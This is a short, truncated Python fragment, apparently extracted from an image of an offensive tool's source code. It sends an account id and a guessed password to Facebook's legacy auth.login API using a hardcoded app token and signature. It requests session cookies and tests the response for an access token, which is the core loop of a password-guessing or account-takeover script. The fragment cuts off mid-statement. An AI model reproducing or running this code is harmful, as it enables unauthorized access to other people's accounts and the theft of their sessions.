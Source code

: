 urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6') y = json.load(data) if 'access_token' in y: print